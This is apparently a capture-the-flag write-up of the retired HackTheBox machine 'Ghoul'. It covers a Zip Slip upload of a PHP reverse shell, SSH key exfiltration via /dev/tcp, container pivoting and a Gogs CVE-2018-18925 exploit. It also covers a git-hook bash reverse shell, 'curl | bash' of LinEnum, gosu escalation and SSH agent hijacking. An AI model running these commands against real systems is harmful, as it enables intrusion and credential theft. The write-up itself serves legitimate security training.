








# Ghoul

This is the write-up for the box Ghoul that got retired at the 5th October 2019.
My IP address was 10.10.14.11 while I did this.

Let's put this in our hosts file:
```
10.10.10.101    ghoul.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/ghoul.nmap 10.10.10.101
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c1:1c:4b:0c:c6:de:ae:99:49:15:9e:f9:bc:80:d2:3f (RSA)
|_  256 a8:21:59:7d:4c:e7:97:ad:78:51:da:e5:f0:f9:ab:7d (ECDSA)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Aogiri Tree
2222/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 63:59:8b:4f:8d:0a:e1:15:44:14:57:27:e7:af:fb:3b (RSA)
|   256 8c:8b:a0:a8:85:10:3d:27:07:51:29:ad:9b:ec:57:e3 (ECDSA)
|_  256 9a:f5:31:4b:80:11:89:26:59:61:95:ff:5c:68:bc:a7 (ED25519)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Aogiri
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88 - Error report
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The SSH versions on the two ports are different, which could mean that there is some kind of virtualization in the background.

## Checking HTTP (Port 80)

The web page on port 80 is a custom developed website that looks like a fan page for the Anime _"Tokyo Ghoul"_.
There are links to _blog.html_ and _contact.html_, but there is no interesting information on any of the pages and the contact form does nothing.

Lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.10.101 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the following directories:
- _/images_ (403 Forbidden)
- _/archives_ (403 Forbidden)
- _/uploads_ (403 Forbidden)
- _/less_ (403 Forbidden)
- _/users_ (200 OK)

The directory _/users_ forwards to _/users/login.php_, which is a login form for _"Aogiri Tree Members"_:



As now we know that PHP runs on the server, lets search for hidden PHP files:
```
gobuster -u http://10.10.10.101 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It finds _/secret.php_ that shows a chat between some of the characters.
The usernames could be helpful for the login form:
- Tatara
- Noro
- Kaneki
- Eto

The following chat messages could be hints to something:
```markdown
**Kaneki**:
Touka told me that there's RCE .What's the webdev doing?
Also please replace the file service with vsftp ASAP. It's not good to use it.

**Noro**:
(...)
BTW Kaneki I needed the access for your remote server!

**Kaneki**:
ILoveTouka <3
Eto start the X server I wish to connect and update the wp too.
Also,guys I've made a fake Art site so that our members can upload CCG pics secretly.Please inform everyone.
```

The _"ILoveTouka"_ could be a password as it is a response to _noro_ inquiry to access a remote server.
The password does not work on the login page, but the chat seems to talk about another web application, which is probably the one on port 8080.

## Checking HTTP (Port 8080)

The web page on port 8080 asks for authentication, but by trying out some default username / password combinations, the credentials _admin:admin_ forwards to the real page.

It looks like a company website where uploading images or ZIP files is possible:





Whenever uploading of ZIP files is possible, I will try out the [Zip Slip vulnerability](https://github.com/snyk/zip-slip-vulnerability), which is a vulnerability in several libraries.
To test for this, the tool [evilarc](https://github.com/ptoomey3/evilarc) can be used:
```
python evilarc.py -o unix -d 1 -p var/www/html/ php-reverse-shell.php

Creating evil.zip containing ../var/www/html/php-reverse-shell.php
```

The _php-reverse shell.php_ file is the reverse shell from the **Laudanum scripts**.
The tool creates a ZIP file _evil.zip_ with a dot-dot-slash path.

After uploading this ZIP file, the vulnerability gets exploited and creates the PHP reverse shell in the root directory of the web server on port 80:
```
http://10.10.10.101/php-reverse-shell.php
```

When browsing to the PHP shell, the listener on my IP and port 9001 starts a reverse shell connection as _www-data_.

The hostname of the box is _Aogiri_ and the IP address is 172.20.0.10.
The directory _/.dockerenv_ in the root directory proofs, that this is a **Docker container**.

## Enumerating Aogiri Container

By checking the web servers configuration files in _/var/www/html_ for sensitive data, the file _users/login.php_ is the _"Aogiri Tree Members"_ login page from port 80 and it contains credentials:
```
(...)
if(isset($_POST['Submit'])){                                                               
                /* Define username and associated password array */
                $logins = array('kaneki' => '123456','noro' => 'password123','admin' => 'abcdef');
(...)
```

After login on port 80, it displays an image and some text, so these credentials seem useless.

The configuration files of **Tomcat** in _/usr/share/tomcat7_ may contain sensitive data.
The file _conf/tomcat-users.xml_ has a commented out password for _admin_, that may be useful later:
```
(...)
<!--<user username="admin" password="test@aogiri123" roles="admin" />
```

After enumerating the container further, the non-default directory _/var/backups_ is found.
The directory _backups/keys_ contains three private SSH keys:
```
www-data@Aogiri:/var/backups/backups/keys$ ls -l

-rwxr--r-- 1 root root 1675 Dec 13  2018 eto.backup
-rwxr--r-- 1 root root 1766 Dec 13  2018 kaneki.backup
-rwxr--r-- 1 root root 1675 Dec 13  2018 noro.backup
```

Downloading them to my local client:
```
cat eto.backup > /dev/tcp/10.10.14.11/9001
(...)
```

Listener on local client:
```
nc -lvnp 9001 > eto.key
(...)
```

The SSH key of _eto_ does neither work on port 22 nor on port 2222.

The SSH key of _noro_ works on port 22:
```
ssh -i noro.key noro@10.10.10.101
```

The SSH key of _kaneki_ is encrypted, but as observed in the chat before, the phrase _"ILoveTouka"_ could be the password:
```
ssh -i kaneki.key kaneki@10.10.10.101
```

The password for _kaneki_ works on port 22 and we have access to the container with two users.

### Escaping the Container

In the home directory _/home/noro_ are no interesting files, but in the home directory _/home/kaneki_ are some notes:

- _notes_
```
I've set up file server into the server's network ,Eto if you need to transfer files to the server can use my pc.
DM me for the access.
```

- _note.txt_
```
Vulnerability in Gogs was detected. I shutdown the registration function on our server, please ensure that no one gets access to the test accounts.
```

The software [Gogs](https://gogs.io/) is a self-hosted Git service, but to exploit the vulnerability, it has to be found first.

As the IP of the container is 172.20.0.10, this service could be in the same network.
Lets enumerate hosts by pinging the 172.20.0.0/24 subnet:
```bash
for i in $(seq 2 255); do
        ping -c 1 -W 1 172.20.0.$i 1>/dev/null 2>&1
        if [[ $? -eq 0 ]]; then
                echo "172.20.0.$i - Online"
        fi
done
```

The IP 172.20.0.150 responds to the ping request.
The file _/home/kaneki/.ssh/authorized_keys_ has two entries, which of one is for the _Aogiri_ host and another entry with the name _kaneki_pub@kaneki-pc_.
That could be the host and the SSH key of _kaneki_ can be used to access that device:
```
ssh kaneki_pub@172.20.0.150
```

This box has another interface with the IP 172.18.0.200 and also a _/.dockerenv_ directory, which means that this is a different container.

## Enumerating Kaneki-PC Container

There is one note in the home directory of _kaneki_pub_ called _to-do.txt_:
```
Give AogiriTest user access to Eto for git.
```

As this has another network interface, the hosts can be enumerated with the script from before:
```bash
for i in $(seq 2 255); do
        ping -c 1 -W 1 172.18.0.$i 1>/dev/null 2>&1
        if [[ $? -eq 0 ]]; then
                echo "172.18.0.$i - Online"
        fi
done
```

The IP 172.18.0.2 responds to the ping request.

Port Scanning the host:
```bash
for port in {0..5000}; do
  bash -c "</dev/tcp/172.18.0.2/$port 1>/dev/null 2>&1"
  if [[ $? -eq 0 ]]; then
          echo "port $port is open"
  fi
done
```

The SSH port 22 responds back and also port 3000, which is the default port for **Gogs**.
A connection to that service with our local client will be possible by tunneling with the [SSH Command Line](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/).

Forwarding _port 22 of 172.20.0.10_ to _port 5001 of 172.20.0.150_:
```
kaneki@Aogiri:~$
ssh> -L 5001:172.20.0.150:22
Forwarding port.
```

Using port 5001 to connect to 172.20.0.150:
```
ssh -p 5001 -i kaneki.key kaneki_pub@localhost
```

Forwarding _port 3000 of 172.18.0.2_ to _port 3000 of localhost_:
```
kaneki_pub@kaneki-pc:~$
ssh> -L 3000:172.18.0.2:3000
Forwarding port.
```

The **Gogs web service** can now be accessed from localhost on port 3000:
```
http://localhost:3000/user/login
```



### Exploiting Gogs Vulnerability

One of the notes of _kaneki_ said, that there was a vulnerability found in **Gogs**.
The footer of the page shows the copyright from 2018 and version _0.11.66_.

The [Mitre CVE Database](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=gogs) has some known vulnerabilities from 2018.
The vulnerability **CVE-2018-18925** is for this specific version and a **Remote Code Execution**, so that may work.

In the [GitHub repository of vulhub](https://github.com/vulhub/vulhub/tree/master/gogs/CVE-2018-18925) the vulnerability is described and there is exploit code written in **Go** which I will use.

Modify line 28 of the Go exploit code accordingly:
```go
(...)
err = ioutil.WriteFile("data", data, 654) // os.O_CREATE|os.O_WRONLY)
(...)
```

To use the exploit, a valid authentication is needed.
The file _to-do.txt_ of _kaneki_pub_ says to give _AogiriTest_ user access to git and this could be a valid username.
After trying out all the found passwords from before, the password found in the _tomcat-users.xml_ logs us in:
```
Username: AogiriTest
Password: test@aogiri123
```

To exploit the vulnerability, the following steps have to be done:

Creating a new repository:
```
Top Right (+ symbol) --> New Repository
```



Execute Go exploit code to generate a cookie:
```
go run ghoul_gogs_exploit.go

0eff81040102ff82000110011000005aff82000306737472696e670c0a00085f6f6c645f75696406737472696e670c0300013106737472696e670c05000375696405696e7436340402000206737472696e670c070005756e616d6506737472696e670c060004726f6f74
```

Upload the created _data_ file into the repository:
```
Upload file --> Drop files here or click to upload --> Commit Changes
```

The file gets uploaded and the vulnerability allows us to do a directory traversal to this file.
The newly created cookie can be modified with the developer tools in any browser and by modifying the value of the _"i_like_gogits"_ cookie, directories can be changed.





After refreshing the page, we are no longer logged in as _AogiriTest_, but as _Kaneki_.

### Exploiting Gogs with Git Hooks

The user _Kaneki_ on Gogs has administrative permissions and can create **Git Hooks** to execute code when an action happens.
```
Settings --> Git Hooks --> Edit "update"
```



Whenever a Git update runs, it will execute the code:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'
```

This can be triggered by changing anything in any file in the repository.
After changing a file, the listener on my IP and port 9001 starts a reverse shell session as the user _git_.

The hostname of this box is _3713ea5e4353_ and the IP is 172.18.0.2.
There is a _./dockerenv_ directory and proofs that this is another **Docker container**.

## Enumerating Docker Container

To get an attack surface on the container, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.11/LinEnum.sh | bash
```

It finds a non-default binary with the **SetUID bit** set, called _/usr/sbin/gosu_.
This is probably the [Simple Go-Based program gosu](https://github.com/tianon/gosu) to escalate privileges to another user as an alternative to `sudo`.

Using it to execute `bash` as root:
```
gosu root bash
```

The file _/root/session.sh_ in the home directory of root contains credentials:
```
(...)
curl -d 'user_name=kaneki&password=12345ILoveTouka!!!' http://172.18.0.2:3000/user/login
```

These may be the credentials of _Kaneki_ for the **Gogs web login**, which got exploited before.
There is a compressed file in the directory called _/root/aogiri-app.7z_.

Listener on local client:
```
nc -lvnp 9001 > aogiri-app.7z
```

Downloading it to our local client:
```
cat aogiri-app.7z > /dev/tcp/10.10.14.11/9001
```

Decompressing the file:
```
7z x aogiri-app.7z
```

The 7z file contains source code for the **Aogiri-Chatapp**.

### Enumerating Aogiri-Chatapp

The directory is initialized as a **Git repository**:
```
git log
```

It support MySQL since one of the commits:
```
git diff ed5a88cbbc084cba1c0954076a8d7f6f5ce0d64b
```
```
(...)
+spring.datasource.url=jdbc:mysql://172.18.0.1:3306/db
+spring.datasource.username=kaneki
+spring.datasource.password=jT7Hr$.[nF.)c)4C
```

There is a hidden commit that is not shown with the `git log` command:
```
git reflog
```

In this commit, there is a different password:
```
git diff e29ad43
```
```
(...)
-spring.datasource.url=jdbc:mysql://localhost:3306/db
+spring.datasource.url=jdbc:mysql://172.18.0.1:3306/db
 spring.datasource.username=kaneki
-spring.datasource.password=7^Grc%C\7xEQ?tb4
+spring.datasource.password=jT7Hr$.[nF.)c)4C
```

There is another hidden commit that contains a password for a root user:
```
git diff 0d426b5
```
```
(...)
-spring.datasource.url=jdbc:mysql://localhost:3306/db
-spring.datasource.username=root
-spring.datasource.password=g_xEN$ZuWD7hJf2G
(...)
```

As we do not have root access to the _Kaneki-PC_ yet, the passwords should be tried out there:
```
kaneki_pub@kaneki-pc:~$ su -
Password: 7^Grc%C\7xEQ?tb4
```

One of the passwords works and root access on _Kaneki-PC (172.18.0.200)_ is gained.
There is a _root.txt_ that does not contain the real flag:
```
You've done well to come upto here human. But what you seek doesn't lie here. The journey isn't over yet.....
```

## Checking SSH (Port 2222)

The port 2222 was never used in any of the containers and by trying to connect there from our local client, it will close the connection:
```
ssh -p2222 -i kaneki.key kaneki_pub@10.10.10.101
Enter passphrase for key 'kaneki.key':

Connection closed by 10.10.10.101 port 2222
```

There is another home directory on _Kaneki-PC_ for the user _kaneki_adm_ that has a _.bash_history_ in the home folder:
```
root@kaneki-pc:~# cat /home/kaneki_adm/.bash_history
```
```
ssh root@172.18.0.1 -p 2222
ssh root@172.18.0.1 -p 2222 -v
exit
```

The SSH configuration file _/etc/ssh/ssh_config_ has the _ForwardAgent_ feature enabled and this is kind of like a **Single-Sign-One (SSO)** setting.
This feature generates a directory in _/tmp_ after a user logs in.

When looking for logged in users with the `last` command, it looks like that a login is made every six minutes.
Lets watch the _/tmp_ directory continuously:
```
cd /tmp

watch -n 1 "ls | grep -v 'ssh-1Oo5P5JuouKm\|ssh-FWSgs7xBNwzU\|ssh-jDhFSu7EeAnz'"
```

After a while a new directory with an agent number gets created:
```
ls /tmp/ssh-snmYgKYdp4

agent.2536
```

This agent number can be put into an environment variable and used for SSH:
```
SSH_AUTH_SOCK=agent.2536 ssh root@172.18.0.1 -p 2222
```

> NOTE: The directory gets deleted after a few seconds, so a fast reaction is needed after seeing the directory pop up.

It logs us into the box as root!
